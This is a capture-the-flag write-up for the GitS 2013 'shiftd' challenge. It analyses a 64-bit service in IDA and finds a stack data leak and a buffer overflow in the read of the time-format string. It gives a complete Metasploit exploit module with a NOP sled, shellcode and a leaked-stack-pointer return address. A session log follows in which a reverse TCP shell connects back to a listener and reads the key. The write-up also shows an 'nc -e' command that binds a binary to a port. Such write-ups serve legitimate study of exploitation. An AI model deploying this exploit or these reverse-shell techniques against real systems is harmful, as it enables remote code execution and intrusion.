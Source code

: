 ```yaml
---
layout: post
title: "GitS 2013 - Shiftd"
date: 2013-02-17 13:57
comments: true
categories: [pwnable]
author: stacks0n
---
```

## Challenge
Points: 100

Find the key! ([File](https://2013.ghostintheshellcode.com/shiftd-3a9c2a55e77d1467ee46dfb931170c737d24f310) running at shiftd.2013.ghostintheshellcode.com:5177)
## Analysis
64-bit ELF. Note that unlike most challenges this app read from STDIN. In order to make it a networked service, we can run the following:
```bash 
stacks0n@ubuntu:~/Desktop$ nc -l -p 5177 -e ./shiftd
```

Closes connection after sending any data for the most part. Open up in IDA and notice the following:
```
.text:0000000000400A42                 mov     edx, 0Ah
.text:0000000000400A47                 mov     esi, 64
.text:0000000000400A4C                 mov     rdi, rax
.text:0000000000400A4F                 call    sub_4007F4
.text:0000000000400A54                 lea     rax, [rbp-40h]
.text:0000000000400A58                 lea     rsi, aNowisthewinter ; "NowIsTheWinterOfOurDiscountTent"
.text:0000000000400A5F                 mov     rdi, rax
.text:0000000000400A62                 call    _strcmp
```

So, need to send special passphrase of "NowIsTheWinterOfOurDiscountTent".

Test run of the application:
```
$ nc shiftd.2013.ghostintheshellcode.com 5177
NowIsTheWinterOfOurDiscountTent
Welcome to Shifty's Time Formatting Service!
What is your name?
stacks0n
Welcome, stacks0n 
                  @!
Please provide a time format:
%D
Your formatted time is:
02/16/13

Thank you! Come again!
```

When our username is returned to us, we notice a bunch of other data being printed out as well.

sub_4007F4() is responsible for reading data from the socket. The prototype seems to be something like:

```
read_from_socket(buffer, size, delimeter)
```
where the arguments are passed in registers. The delimeter is always specified by 0x0A (newline). The method reads one byte at a time until size is met or the delimeter is reached.

Since buffers are not cleared out or null terminated, stack data is leaked when our username is printed back out to us. This is especially handy since the data contains a stack pointer which can later help us redirect execution. Note that the stack is executable, but randomized.

Unfortunately, I spent too much time focusing on the call to strftime() and its format specifiers. Although you can prepend padding ('%100D'), there is no '%n' to write the number of bytes written.

The code for reading in the format string is as follows:
```
.text:0000000000400931                 mov     rax, cs:off_601068
.text:0000000000400938                 mov     rcx, rax
.text:000000000040093B                 and     ecx, 7FFFFFFFh
.text:0000000000400941                 lea     rax, [rbp+format]
.text:0000000000400948                 mov     edx, 0Ah
.text:000000000040094D                 mov     rsi, rcx
.text:0000000000400950                 mov     rdi, rax
.text:0000000000400953                 call    read_from_socket
```

Note that the format string buffer is size 1024, and the call is:
```
read_from_socket(format, 0x6014b0, '\n').
```

So there we have it, a stack based buffer overflow. 1064 bytes until we reach the stored return address on the stack. By leveraging the leaked stack pointer, we can redirect execution to our embedded shellcode.

MSF Module:
```ruby
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# web site for more information on licensing and terms of use.
#   http://metasploit.com/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
        Rank = GreatRanking

        include Msf::Exploit::Remote::Tcp

        def initialize(info = {})
                super(update_info(info,
                        'Name'           => 'GitS 2013 Pwnable 100 - shiftd',
                        'Author'         => [ 'stacks0n', 'hubris' ],
                        'Privileged'     => false,
                        'Platform'       => [ 'linux' ],
                        'Arch'           => ARCH_X86_64,
                        'Targets'        => [ [ 'Automatic', { }  ], ],
                        'DefaultTarget'  => 0))

                register_options(
                        [
                                Opt::RHOST('54.235.156.9'),
                                Opt::RPORT(5177)
                        ], self.class)

        end

        def exploit
                connect

                # send the secret password
                # we can send extra data, not that it matters
                sock.put("NowIsTheWinterOfOurDiscountTent\x00" + "A" * 32 + "\n")
                print_status sock.get_once

                # send the username
                sock.put("|\n")
                resp = print_status sock.get_once

                # process the stack address that is leaked to us
                stack_addr = "\x00" + resp.split("|").last.split("!").first + "\x00\x00"

                # subtract some off this stack addres to allow us more room for
                # nop sled and shellcode
                stack_addr = [stack_addr.unpack("Q").first - 0x100].pack("Q")

                # send the format string for strftime()
                # overflow alert!
                payload_size = 1064
                junk = "A" * 48 # we don't want to trash our payload with push's
                p = "\x90" * (payload_size - (payload.encoded.size + junk.size))
                p += payload.encoded + junk

                # send the payload
                sock.put(p + stack_addr + "\n")
                print_status sock.get_once

                handler
                disconnect
        end
```

```bash
msf  exploit(shiftd) > show options

Module options (exploit/gits/shiftd):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  204.236.213.69   yes       The target address
   RPORT  5177             yes       The target port


Payload options (linux/x64/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  50.142.246.171   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf  exploit(shiftd) > exploit

[-] Handler failed to bind to 50.142.246.171:4444
[*] Started reverse handler on 0.0.0.0:4444 
[*] Welcome to Shifty's Time Formatting Service!
What is your name?

[*] Welcome, |??(!
Please provide a time format:

[*] Your formatted time is:
??????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????????j)X?j_j^H?H?

Thank you! Come again!

[*] Command shell session 1 opened (192.168.1.101:4444 -> 204.236.213.69:36107) at 2013-02-16 16:49:49 -0500

cat key
cat: key: No such file or directory
whoami
shiftd
cd /home/shiftd
ls
key
shiftd
cat key
http://shifty.urbanup.com/4195551
```
## Solution
http://shifty.urbanup.com/4195551
